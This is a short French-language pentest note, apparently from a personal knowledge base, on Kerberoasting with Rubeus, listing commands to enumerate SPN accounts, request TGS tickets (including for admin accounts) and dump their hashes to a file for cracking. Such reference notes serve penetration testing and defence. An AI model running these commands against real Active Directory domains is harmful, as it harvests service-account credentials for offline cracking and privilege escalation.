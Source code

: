 ```yaml
---
public: true # set to true to make the article publishable
---
```

Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs


```shell
# affiche un récapitulatif des comptes avec des SPNs 
# détaille certaines informations telles que :
# - les comptes dont le mot de passe est ancien
# - le nombre de comptes par méthode de hachage (rc4, aes128 etc)
./Rubeus.exe kerberoast /stats

# demande de TGS pour les comptes ayant 'Admincount' à 1
./Rubeus.exe kerberoast /ldapfilter:'admincount=1'

# Demande du TGS pour un utilisateur particulier pour un domaine particulier
./Rubeus.exe kerberoast /user:mssqlsvc /domain:domain.loca /nowrap

./Rubeus.exe kerberoast /outfile:hash.txt
```

[[Cassage de mots de passes Kerberos]]